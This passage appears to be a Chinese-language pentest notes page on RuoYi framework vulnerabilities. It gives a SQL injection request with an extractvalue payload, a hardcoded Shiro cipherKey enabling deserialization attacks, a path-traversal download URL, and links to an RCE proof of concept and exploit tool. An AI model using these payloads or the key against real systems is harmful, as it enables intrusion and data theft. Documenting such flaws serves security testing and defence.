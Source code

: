```http
POST /system/dept/edit HTTP/1.1

DeptName=1&DeptId=100&ParentId=12&Status=0&OrderNum=1&ancestors=0)or(extractvalue(1,concat((select user()))));#
```



## shiro反序列化

前面提到了若依的核心技术采用**Shiro**，如果密钥泄露了，自然就存在shiro反序列化漏洞。

默认是动态生成密钥，固定密钥可以在`application.yml`中配置`shiro.cookie.cipherKey`

![image-20230621193653154](../../../images/image-20230621193653154.png)

V4.3.1~V4.6.1，cipherKey使用硬编码zSyK5Kp6PZAAjlT+eeNMlg==

![image-20230621203731261](../../../images/image-20230621203731261.png)



### 复现

![image-20230621202753098](../../../images/image-20230621202753098.png)



## 后台任意文件下载

```http
/common/download/resource?resource=/profile/../pom.xml
```

![image-20230825145931666](../../../images/image-20230825145931666.png)



## RuoYi-v4.7.8-RCE-POC

[RuoYi-v4.7.8-RCE-POC](https://github.com/luelueking/RuoYi-v4.7.8-RCE-POC)





## CVE-2024-42913--sql注入

https://forum.butian.net/article/585





## 利用工具

![image-20230917181756487](../../../images/image-20230917181756487.png)
